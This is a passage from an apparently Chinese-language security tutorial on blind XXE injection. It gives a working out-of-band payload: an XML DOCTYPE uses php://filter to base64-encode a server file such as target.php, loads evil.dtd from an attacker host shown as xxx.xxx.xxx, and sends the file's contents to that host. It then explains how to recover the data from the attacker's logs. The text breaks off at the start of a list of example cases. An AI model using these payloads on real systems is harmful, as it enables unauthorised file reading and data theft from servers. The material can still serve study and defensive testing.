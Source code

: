 blind xxe漏洞方案3：
可以使用外带数据通道提取数据，先使用php://filter获取目标文件的内容，然后将内容以http请求发送到接受数据的服务器(攻击服务器)xxx.xxx.xxx。

```
<?xml version=”1.0”?>
<!DOCTYPE ANY [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=./target.php"> # /etc/issue
<!ENTITY % dtd SYSTEM "http://xxx.xxx.xxx/evil.dtd">
%dtd;
%send;
]>
```

evil.dtd的内容，内部的%号要进行实体编码成&#x25。

```
<!ENTITY % all
“<!ENTITY &#x25; send SYSTEM ‘http://xxx.xxx.xxx/?%file;’>”
>
%all;
```

有报错直接查看报错信息。

无报错需要访问接受数据的服务器中的日志信息，可以看到经过base64编码过的数据，解码后便可以得到数据。

![rizhi](/images/rizhi.png)

![读取txt](/images/cattxt.png)

**这里列举几个案例：**

恶意引入外部实体1：

**XML内容**
